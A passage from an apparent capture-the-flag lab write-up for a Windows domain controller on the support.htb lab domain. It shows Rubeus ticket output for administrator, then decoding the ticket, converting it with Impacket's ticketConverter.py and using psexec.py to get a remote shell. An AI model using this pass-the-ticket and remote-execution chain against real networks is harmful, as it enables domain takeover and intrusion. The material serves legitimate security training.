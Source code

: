     [*] Current LUID    : 0x65f382
    
      UserName                 : support
      Domain                   : SUPPORT
      LogonId                  : 0x65f382
      UserSID                  : S-1-5-21-1677581083-3380853377-188903654-1105
      AuthenticationPackage    : NTLM
      LogonType                : Network
      LogonTime                : 5/27/2022 12:15:24 PM
      LogonServer              : DC
      LogonServerDNSDomain     : support.htb
      UserPrincipalName        : support@support.htb
    
        [0] - 0x12 - aes256_cts_hmac_sha1
          Start/End/MaxRenew: 5/27/2022 12:38:17 PM ; 5/27/2022 10:38:17 PM ; 6/3/2022 12:38:17 PM
          Server Name       : cifs/dc.support.htb @ SUPPORT.HTB
          Client Name       : administrator @ SUPPORT.HTB
          Flags             : name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable (40a50000)
    

For me, it doesn’t work.

#### Remote Use

I’ll grab the last ticket `Rubeus` generated, and copy it back to my machine,
saving it as `ticket.kirbi.b64`, making sure to remove all spaces. I’ll base64
decode it into `ticket.kirbi`:

    
    
    oxdf@hacky$ base64 -d ticket.kirbi.b64 > ticket.kirbi
    

Now I need to convert it to a format that Impact can use:

    
    
    oxdf@hacky$ ticketConverter.py ticket.kirbi ticket.ccache
    Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation
    
    [*] converting kirbi to ccache...
    [+] done
    

I can use this to get a shell using `psexec.py`:

    
    
    oxdf@hacky$ KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
    Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation
    
    [*] Requesting shares on dc.support.htb.....
    [*] Found writable share ADMIN$
    [*] Uploading file aXlgPfYK.exe
    [*] Opening SVCManager on dc.support.htb.....
    [*] Creating service lyPY on dc.support.htb.....
    [*] Starting service lyPY.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.20348.405]
    (c) Microsoft Corporation. All rights reserved.
    